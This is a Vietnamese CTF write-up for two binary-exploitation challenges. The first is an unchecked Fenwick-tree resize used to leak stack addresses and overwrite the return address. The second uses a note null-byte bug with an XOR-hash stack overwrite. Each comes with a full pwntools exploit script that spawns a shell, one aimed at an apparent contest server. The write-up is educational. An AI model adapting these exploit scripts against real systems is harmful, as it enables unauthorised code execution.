






Giải này thì em chỉ làm dc 1 bài duy nhất, nma ít ra em cũng được first blood nên cũng có tiền ăn trưa

https://www.youtube.com/watch?v=skqylbxAPP4

---Is_that_a_ppc_chall?---



Bài này là một bài cho phép mình thao tác trên Fenwick tree, với 1 thao tác độc lạ là resize cái Fenwick Tree này, và thao tác này không có sanity check

Đi sâu vào từng thao tác:

1. Thao tác update (case 1): Chọn id của phần tử và update từ id đó một giá trị là delta (!) 
2. Thao tác query (case 2): Tính sum từ id theo thao tác nhảy bit của Fenwick tree (!)
3. THao tác resize (case 3): Chình lại size của cái Fenwick tree mà không thực hiện thao tác update lại các giá trị của cây

(!) Fenwick Tree và các thao tác trên cây đọc thêm ở đây: https://cp-algorithms.com/data_structures/fenwick.html



Vì cái Fenwick tree này nó nằm trên stack (qword array s nằm trên stack), nên ta có thể resize cái struct sao cho nó nhận cả return address (cũng nằm trên stack) vào tầm của nó



Fenwick Tree của ta bắt đầu tại 0x7ffec2c211e0 (được highlight), và return address của ta ở 0x7ffec2c213f8 (một address trong libc_start_main) và ở dưới nó 0x10 byte là một address thuộc về binary

Và vì Fenwick tree nhảy bit để tính tổng (ví dụ phần từ thứ 10 + phần tử thứ 8 + phần tử thứ 0), ta có thể dịch từ từ con trỏ để có thể tính lần lượt các address cần thiết trên stack (vì thao tác query là thao tác tính tổng dạng Fenwick tree, nên ta cần phải biết được một số giá trị trước target để phục hồi target từ sum của thao tác query), bao gồm return address (libc_start_main, một hàm trong libc được gọi trước main), và một exe address (một số hàm init của binary trước main mà mình cũng không rõ)





Với address của libc_start_main và address của một hàm nào đó trong binary, ta có thể tính exe_base và libc_base, từ đó tính offset từ return address (libc_start_main) tới hàm win (một hàm trong binary) và dùng thao tác update để chỉnh sửa return address để nhảy vào hàm win và spawn shell (chú ý rsp 0x10 alignment vì khi gọi shell binary sẽ check 16 bytes alignment, ở đây ta cộng một offset 0x27 để tránh một cái push rbp ở đầu function để tránh 0x10 misalignment)



Một ví dụ về 0x10 misalignment (vì hệ thống 64 bits dùng xmmword, tức một cấu trúc 0x10 bytes, thứ chỉ có thể được lấy tại các địa chỉ align với 0x10)

Lỗi này không xảy ra ở các hệ thống 32 bits

```
#!/usr/bin/env python3

from pwn import *

exe = ELF("./chall")

context.binary = exe
context.log_level="info"

script = '''
    b main
    # c
'''

def update(r,idx,w):
    r.sendlineafter(">","1")
    payload=flat(
        str(idx).encode(),
        " ",
        str(w).encode()
    )
    r.sendlineafter("idx delta:",payload)

def query(r,idx):
    r.sendlineafter(">","2")
    r.sendlineafter("idx:",str(idx).encode())

def resize(r,sz):
    r.sendlineafter(">","3")
    r.sendlineafter("n:",str(sz).encode())

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("127.0.0.1", 1337)

    return r


def main():
    r = conn()
    # r = gdb.debug(exe.path, gdbscript=script)

    resize(r,100)

    query(r,65)

    r.recvuntil("sum=")
    data=r.recvline()
    data=data.split(b'\n')[0]
    canary=int(data,10)&0xffffffffffffffff

    query(r,66)

    r.recvuntil("sum=")
    data=r.recvline()
    data=data.split(b'\n')[0]
    addr0=int(data,10)&0xffffffffffffffff

    query(r,67)
    
    r.recvuntil("sum=")
    data=r.recvline()
    data=data.split(b'\n')[0]
    addr1=int(data,10)&0xffffffffffffffff

    query(r,68)
    
    r.recvuntil("sum=")
    data=r.recvline()
    data=data.split(b'\n')[0]
    addr2=int(data,10)&0xffffffffffffffff

    query(r,69)
    
    r.recvuntil("sum=")
    data=r.recvline()
    data=data.split(b'\n')[0]
    addr3=int(data,10)&0xffffffffffffffff

    update(r,67,addr3-addr1-0x88+0x27)
    r.sendlineafter(">","4")

    log.info("canary=0x%lx",canary)
    log.info("addr0=0x%lx",addr0)
    log.info("addr1=0x%lx",addr1)
    log.info("addr2=0x%lx",addr2)
    log.info("addr3=0x%lx",addr3)

    r.interactive()


if __name__ == "__main__":
    main()

```

---is that a rev chall?---


Bài này cho phép ta viết 0x20 bytes vào 1 cái note trong 0xa note, với mỗi cái note được ngăn cách với nhau bởi null byte

Sau đó, cái note của ta sẽ được đem đi qua 3 transformation và check để chạy vào 1 hàm win (fake)


Phase 1 chuyển hóa đầu của note, trừ đi 0x20 vào ký tử đầu

Phase 2 tính lại len của a1, RỒI mới trừ đi 0x10 vào a1Ilen-1I, tức nếu ta làm sao để phần tử đầu tiên bằng 0x20, thì len ở đây sẽ trả về 0 và phase2 sẽ chỉnh sửa NULL byte ngăn cách 2 note, khiến cho ta có thể link 2 note với nhau

Phase 3 copy cái note của ta vào 1 chunk dc malloc rồi gắn vào đuôi của cái note copy môt đoạn string 


Sau đó ans check sẽ cmpstring của ta và trả về Đúng/Sai, lưu ý là nó chỉ check 13 bytes đầu, nên ta chỉ cần thỏa mãn 13 bytes đầu là đủ để qua dc ans_chk
7


Trong hàm win mà ta chạy tới, cái process sẽ sử dụng 1 cái hash xor để hash các cái kí tự của ta lại để lấy flag(fake), nhưng cái hash này sẽ thực hiện trên stack, nên giả định nếu ta có 1 xâu đủ dài, ta có thể hash tới return address để có được 1 cái arbitary execution 


Cái hash của ta ở 0x7ffc98300220 và return address ở 0x7ffc98300278


Đáng chú ý, ta có một hàm gọt shell trong binary, và cái srand của hash này nó xử dụng 1 seed cụ thể, nên ta có sẵn các dữ liệu để build xâu hash

Hơn thế nữa, vì ta có thể nới dài xâu bằng bug trong phase 2, nên ta có thể tùy ý build 1 payload

Chú ý là v4 (count) và i (interator) cũng nằm trên stack, và ta cần giữ nguyên được giá trị của nó trên stack

```
#!/usr/bin/env python3

from pwn import *
from ctypes import CDLL

exe = ELF("./w1recruit_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.39.so")

context.binary = exe
context.log_level = "info"

def exec(r,idx,data):
    r.sendlineafter(b"Index >",str(idx).encode())
    r.sendlineafter(b"Answer >",data)

def exec_skip(r,idx):
    r.sendlineafter(b"Index >",str(idx).encode())
    r.sendafter(b"Answer >",b"\n")

def conn():
    if args.LOCAL:
        r = process(exe.path)
        if args.DEBUG:
            gdb.attach(r, gdbscript="b *0x401514")
    else:
        r = remote(args.HOST or "45.122.249.68", int(args.PORT or 10364))

    return r


def build_payloads():
    # pulling srand from libc
    libc_runtime = CDLL(libc.path)
    libc_runtime.srand(0x539)

    length = 105
    random = [libc_runtime.rand() & 0xff for _ in range(length)]
    table = exe.read(0x402190, length)

    # original payload (pasted from gdb)
    source = bytearray.fromhex(
        "69206c6f7665207731636164656d7921203c3341414141414141414141414131"
        "f022424242424242424242424242424242cf6b37e06537af7f4444444444444434f0"
    )
    source += b"\0" * (length + 1 - len(source))

    dest = bytearray(b"A" * length)
    dest[0x30:0x38] = p64(length)       # strlen
    dest[0x3c:0x40] = p32(0x3c)         # counter
    dest[0x58:0x60] = p64(0x4017d5)     # win

    # preserving record2
    for i in range(0x61, 0x41, -1):
        source[i] = source[i + 1] ^ dest[i] ^ random[i] ^ table[i]
        if source[i] in (0, 0x0a) or (i == 0x61 and (source[i] + 0x10) & 0xff in (0, 0x0a)):
            dest[i] ^= 0x69
            source[i] = source[i + 1] ^ dest[i] ^ random[i] ^ table[i]

    # preserving record1
    for i in range(0x41, 0x21, -1):
        source[i] = source[i + 1] ^ dest[i] ^ random[i] ^ table[i]
        if source[i] in (0, 0x0a) or (i == 0x61 and (source[i] + 0x10) & 0xff in (0, 0x0a)):
            dest[i] ^= 0x69
            source[i] = source[i + 1] ^ dest[i] ^ random[i] ^ table[i]


    record1 = bytearray(source[0x21:0x41])
    record1[-1] = (record1[-1] + 0x10) & 0xff

    record2 = bytearray(source[0x42:0x62])
    record2[-1] = (record2[-1] + 0x10) & 0xff

    return bytes(record1), bytes(record2)


def main():
    r = conn()

    record1, record2 = build_payloads()

    exec(r, 0, b"\x89 love w1cademy! <3".ljust(0x20, b"A"))
    exec(r,1,b"\x20"+b"B"*0x19)
    exec(r, 1, record1)
    exec(r,2,b"\x20"+b"C"*0x19)
    exec(r, 2, record2)
    exec_skip(r,0)

    r.interactive()


if __name__ == "__main__":
    main()

```